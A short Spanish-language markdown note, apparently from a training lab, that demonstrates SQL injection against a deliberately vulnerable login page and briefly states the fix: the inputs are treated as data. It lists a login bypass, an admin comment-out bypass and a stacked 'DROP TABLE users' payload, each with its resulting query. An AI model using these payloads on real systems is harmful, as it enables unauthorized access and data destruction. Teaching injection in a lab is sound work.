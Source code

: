 #Inyección SQL
##El login page es vulnerable a ataques de inyección SQL
Probar los siguientes ejemplos:
###A. Esto iniciará sesión con la primer cuenta en la tabla users
    username: ' OR 1=1 --
    password: lo que sea
    SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'anything'
###B. Checar directamente si existe una cuenta admin
    usename: admin' --
    password: (blank)
    SELECT * FROM users WHERE username = 'admin' -- ' AND password = ''
###C. Eliminar la tabla usuarios (si se prueba, reiniciar la aplicación)
    Username: admin'; DROP TABLE users; --
    Password: (leave blank)
    SELECT * FROM users WHERE username = 'admin'; DROP TABLE users; -- ' AND password = ''
###* La solución hace que los inputs (username, password), sean tratados como inputs y no como código SQL directamente *

